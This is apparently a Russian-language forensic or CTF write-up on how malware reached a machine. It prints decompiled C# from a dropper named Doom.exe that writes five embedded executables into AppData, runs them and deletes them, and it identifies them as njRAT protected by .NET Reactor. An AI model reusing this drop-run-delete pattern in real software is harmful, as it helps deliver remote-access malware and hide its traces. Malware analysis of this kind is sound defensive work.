 ## Как произошла доставка вредоносного ПО?

найдем на рабочем столе пользователья Administrator странный файл `Doom.exe`.
Открываем в Ilspy и понимаем, что эта программа - дроппер:
```csharp=
internal class Program
{
	private static void Main(string[] args)
	{
		if (!Directory.Exists(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\Dropped"))
		{
			Directory.CreateDirectory(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\Dropped");
		}
		string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\Dropped\\";
		File.WriteAllBytes(text + "1.exe", DoomResources._1);
		File.WriteAllBytes(text + "2.exe", DoomResources._2);
		File.WriteAllBytes(text + "3.exe", DoomResources._3);
		File.WriteAllBytes(text + "4.exe", DoomResources._4);
		File.WriteAllBytes(text + "5.exe", DoomResources._5);
		Process.Start(text + "1.exe");
		Process.Start(text + "2.exe");
		Process.Start(text + "3.exe");
		Process.Start(text + "4.exe");
		Process.Start(text + "5.exe");
		Thread.Sleep(60000);
		File.Delete(text + "1.exe");
		File.Delete(text + "2.exe");
		File.Delete(text + "3.exe");
		File.Delete(text + "4.exe");
		File.Delete(text + "5.exe");
	}
}

```
т.е. он закидывает файлы в Appdata/Dropped , а потом их удаляет. Заходим в ресурсы `doom.exe`и экспортируем экзешники, которые он создает. Понимаем, что это njrat по строкам, хешам, репорту с вирустотала.

Итого, доставка впо:
запуск doom.exe => дроп их на диск и запуск

## Какие средства обфускации были использованы?
закинем один из дропнутых екзешников в декомпиль и немного побродив по _1.exe найдем следующее:

```csharp
internal class MK4PqaDfHZTyUZ6JDo
{
    private static bool nf6dcw9mvT;

    internal static void NetReactor()
    {
        if (!nf6dcw9mvT)
        {
            nf6dcw9mvT = true;
            if (Math.Abs((DateTime.Now - new DateTime(2023, 3, 15)).Days) >= 14)
            {
                throw new Exception("This assembly is protected by an unregistered version of Eziriz's \".NET Reactor\"! This assembly won't further work.");
            }
        }
    }
```